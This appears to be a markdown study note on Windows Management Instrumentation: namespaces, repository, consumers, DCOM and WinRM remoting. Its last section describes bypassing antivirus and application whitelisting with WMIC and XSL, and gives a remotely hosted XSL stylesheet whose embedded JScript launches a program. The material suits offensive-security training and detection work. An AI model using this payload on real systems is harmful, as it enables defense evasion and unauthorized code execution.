 ### Namespaces
Namespaces are crearted by providers and are used to divide classes logically.

Well known namespaces are :
- root\cimv2
- root\default
- root\security
- root\subscription

### Repository
WMI repository is the database used to store static data (definitions) of classes.

- Located in the ```%WINDIR%\System32\Wbem\Repository``` directory  

### Consumers
Applications or scripts which can be used to interact with WMI classes for query of data or to run methods or to subscribe to events.

- PowerShell
- WMIC.exe
- ... 

### Remote WMI Protocols
#### DCOM
- Port 135
- Not firewall friendly
- By default WMI service **Winmgmt** is running and listening on port 135.

Enumerate processes on remote system
```
Get-WmiObject -Class Win32_Process -ComputerName 192.168.2.10 -Credential 'corp.local\admin'
```

#### WinRM / PowerShell Remoting
- SOAP protocl based on the WSMan specification
- 5985 (HTTP) or 5986 (HTTPS)

#### WMI and XSL
- https://www.ired.team/offensive-security/code-execution/application-whitelisting-bypass-with-wmic-and-xsl
- https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1220/T1220.md

This can be used to bypass AV solution or Application Whitelisting.

XSL file to be hosted on attacker machine
```
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("calc");
	]]> </ms:script>
</stylesheet>
```
